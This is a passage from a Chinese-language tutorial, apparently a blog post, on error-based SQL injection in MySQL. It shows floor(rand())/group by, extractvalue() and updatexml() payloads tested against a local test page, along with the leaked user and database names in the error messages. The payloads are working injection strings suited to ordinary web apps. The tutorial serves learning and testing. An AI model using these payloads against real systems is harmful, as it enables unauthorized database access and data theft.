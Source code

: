 	http://localhost/sqli/index.php?name='+or+(select+count(*)+from+information_schema.tables+group+by+concat(user(),floor(rand(0)*2)))+%23&pass=1

报错注入得到：

	Operation error: Duplicate entry 'root@localhost1' for key 'group_key'

法二：``extractvalue()`` 函数，利用XPath语法错误导致报错：

{% highlight mysql %}
extractvalue(1,concat(user())
{% endhighlight %}

本地环境测试：

	http://localhost/sqli/index.php?name='+or+extractvalue(1,concat(user(),database()))+%23&pass=1

报错注入得到：

	Operation error: XPATH syntax error: '@localhostsqli'

法三：``updatexml`` 函数，同样是利用语法错误导致报错：

{% highlight mysql %}
updatexml(1,concat(user()),1)
{% endhighlight %}

本地环境测试：

	http://localhost/sqli/index.php?name='+or+updatexml(1,concat(user(),0x3a,database()),1)+%23&pass=1

报错注入得到：

	Operation error: XPATH syntax error: '@localhost:sqli'

（姿势不断补充中...）
